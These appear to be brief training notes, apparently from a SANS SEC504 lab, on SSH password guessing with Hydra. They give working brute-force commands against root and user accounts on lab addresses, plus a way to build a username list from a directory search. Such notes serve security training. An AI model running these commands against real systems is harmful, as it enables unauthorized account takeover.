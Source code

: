 # Password Guessing Notes

this will be done with hydra

```
hydra -t 4 -l root -p sec504 ssh://127.0.0.1
hydra -t 4 -l sec504 -p sec504 ssh://127.0.0.1
```

WITH PASSWORD LIST

```
hydra -t 4 -l sec504 -P passwords.txt ssh://127.0.0.1
```

WITH USERS LIST

```
hydra -t 4 -L users.txt -p sec504 ssh://127.0.0.1
```

eDirectory server, after copying a big list of users and information

```
awk '{print $3}' searchresult.txt
awk '{print $3}' searchresult.txt | sed 's/@.*//' > eusers.txt
hydra -t 4 -L eusers.txt -P passwords.txt ssh://172.30.0.25
```

with metasploit

